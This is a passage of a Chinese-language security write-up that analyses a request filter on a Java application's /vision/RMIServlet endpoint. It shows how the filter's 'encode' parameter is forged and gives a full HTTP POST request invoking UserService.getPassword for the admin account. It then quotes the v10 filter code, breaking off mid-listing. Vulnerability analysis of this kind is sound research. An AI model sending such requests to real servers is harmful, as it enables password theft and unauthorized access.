 从过滤器对`encode`的分解中可以看出，它由三部分组成。

```
String[] decode = RMICoder.decode(encode);
className = decode[0];
methodName = decode[1];
String params = decode[2];
```

跟进RMICoder找到encode方法来生成。但是发现encode方法生成的字符串无法被decode完全还原。经过debug，encode字符串想要成功生成，只需要将`decode()`方法中的a字节数组换成b字节数组。对应的代码行如下。

```java
char var7 = (char)a[var4[var6]];  -> (char)b[var4[var6]];
```

然后构造白名单中的类、方法，字符串如下。

```java
String var="UserService login [\"admin\",\"admin\"]";
```

再对生成的字符串进行encode，发送请求。

```
POST /vision/RMIServlet HTTP/1.1
Host: ip
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=EC30BBD3DABB909C5B35A5F292B243D3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

encode=zDp4Wp4gRip+Sw-R6+/JV/uu(hdR6/uu/ut/uu(hdR6/uu/JT&className=UserService&methodName=getPassword&params=["admin"]
```



### v10 过滤器

v10过滤器针对于`"/vision/RMIServlet`路径做了单独的逻辑处理

```java
public void doFilter(ServletRequest servletrequest, ServletResponse servletresponse, FilterChain filterchain) throws IOException, ServletException {
		boolean isRmi = "/vision/RMIServlet".equals(httpRequest.getServletPath());
  	String requestStr;
 		if (isRmi) {
    	String queryString = httpRequest.getQueryString();
	    String params;
  	  if (queryString != null && queryString.startsWith("windowUnloading")) {
      		params = queryString.length() > "windowUnloading".length() && queryString.charAt("windowUnloading".length()) == '=' ? "windowUnloading=&" : "windowUnloading&";
          String content;
        	if (queryString.length() > params.length()) {
          		content = queryString.substring(params.length());
          		if (content.endsWith("=")) {
            			content = content.substring(0, content.length() - 1);
          		}
            	content = URLDecoder.decode(content, "UTF-8");
          } ...
          if (content.indexOf("className=") == -1 && content.indexOf("methodName=") == -1) {
```